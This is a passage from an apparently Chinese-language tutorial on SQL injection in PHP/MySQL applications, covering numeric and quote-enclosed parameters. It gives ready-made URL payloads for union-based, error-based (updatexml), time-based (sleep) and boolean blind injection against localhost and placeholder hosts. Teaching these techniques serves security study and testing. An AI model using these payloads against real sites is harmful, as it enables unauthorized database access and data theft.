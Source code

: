 如果使用联合注入测试有回显并且是第三个字段在页面有回显,那么可以使用联合注入(这里假设test表是三个字段):

```mysql
http://127.0.0.1/sqlinjection.php?id=1 union select 1,2,user() --
```

没有回显可以尝试下看能不能报错注入,比如:

```mysql
http://127.0.0.1/sqlinjection.php?id=1 or updatexml(2,concat(0x7e,(version())),0) --
```

也可以试下时间盲注,比如:

```mysql
http://127.0.0.1/sqlinjection.php?id=3 and sleep(3) --
```

也可以试下bool盲注(看能不能引起页面变化):

```mysql
http://127.0.0.1/sqlinjection.php?id=3 and (length(database()))>10 --
```

__注__: 上面的测试是在对应的注入方式中关键字或者特殊符号没有被过滤的情况下,真实环境中也不知道到底过滤了什么或者是其他原因。在不能看到源码的而情况下,也只能fuzz(随机测试)。

__注__: 上面这些只是提供大致的思路。联合注入,报错注入,盲注以及其他注入方式有很多,还可以结合编码等或者其他大佬总结的什么方式绕过,需要用到的时候可以搜集资料详细的学习。

##### 字符型

程序拼接的变量被引号包裹。字符型注入是是受php的gpc或者addslashes、mysql_real_escape_string,mysql_escape_string或者其他对引号有转义的函数影响的。如果程序没有对引号和关键字或者特殊符号过滤或者过滤不严,可能会导致sql注入。

eg:

```php
$p = $_GET['p']; p = 100' and '1'='1
$sql = "select * from news where p = '3' and '1'='2'";
```

闭合单引号,如果使用联合注入测试有回显并且是第三个字段在页面有回显,那么可以使用联合注入(这里假设test表是三个字段):

```mysql
http://xxx/qqq.php?p=1' union select 1,2,user() --
```

闭合单引号,没有回显可以尝试下看能不能报错注入,比如:

```mysql
http://xxx/qqq.php?p=1' or updatexml(2,concat(0x7e,(version())),0) --
```

也可以试下时间盲注,比如:

```mysql
http://xxx/qqq.php?p=1' and sleep(5) --
```

也可以试下bool盲注(看能不能引起页面变化):

```mysql
http://xxx/qqq.php?p=1' and (length(database()))>10 --
```
